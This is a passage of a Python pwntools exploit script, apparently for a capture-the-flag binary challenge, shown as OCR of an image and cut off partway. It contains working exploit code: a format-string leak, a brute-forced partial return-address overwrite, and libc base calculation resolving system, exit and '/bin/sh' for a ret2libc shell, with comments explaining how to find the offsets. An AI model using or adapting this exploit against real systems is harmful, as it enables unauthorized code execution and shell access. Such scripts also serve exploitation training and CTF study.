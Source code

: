 ```python
    p.sendline("%51$8x")
    p.recvuntil("description: ")

    #
    # call printf@plt: 680
    #
    payload = 'a' * 115 + '\x80\x36'
    p.send(payload)

    p.recvuntil("Choice: ")
    p.sendline("3")
    try:
        ret = p.recvline(timeout=1)
    except EOFError:
        # log.info("Segmetation fault!")
        p.kill()
    else:
        if len(ret):
            log.info("return address of main is %s" % ret)
            break
        p.kill()

ret_addr = int(ret, 16)

#
# gdb -batch -ex "disasm __libc_start_main" /lib/i386-linux-gnu/libc-2.19.so
# 
ret_offset = 0x19a83
libc_base = ret_addr - ret_offset

#
# try
# readelf -s /lib/i386-linux-gnu/libc-2.19.so | grep 
# to get offset of target functions.
# use
# objdump -s -j .rodata /lib/i386-linux-gnu/libc-2.19.so | grep /bin/sh
# to get useful strings.
#
printf_libc = libc_base + 0x4d280
system_libc = libc_base + 0x40190
exit_libc = libc_base + 0x331e0
binsh_str = libc_base + 0x160a24

log.info("libc base address: %#x" % libc_base)
log.info("system@@GLIBC: %#x" % system_libc)
log.info("exit@@GLIBC: %#x" % exit_libc)
log.info("'/bin/sh': %#x" % binsh_str)

log.info("Stage 1 finished!")

# stage 2

while True:
    p.recvuntil("Choice: ")
    p.sendline("1")

    p.recvuntil("name: ")
    p.sendline("AAAAAA")

    p.recvuntil("description: ")
    #
    # offset of make_note: 9af
    # 3 is a random number
```
